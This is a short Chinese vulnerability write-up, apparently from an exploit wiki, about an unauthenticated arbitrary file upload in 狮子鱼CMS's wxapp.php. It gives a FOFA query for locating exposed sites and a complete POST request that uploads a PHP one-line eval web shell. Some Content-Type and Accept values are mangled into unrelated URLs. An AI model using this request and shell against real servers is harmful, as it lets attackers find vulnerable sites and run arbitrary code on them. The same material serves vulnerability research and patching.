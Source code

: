 # 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/szy-1.png)

发送请求包上传PHP文件

```
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="pq.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST['pq']);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

![](http://wikioss.peiqi.tech/vuln/szy-2.png)

![](http://wikioss.peiqi.tech/vuln/szy-3.png)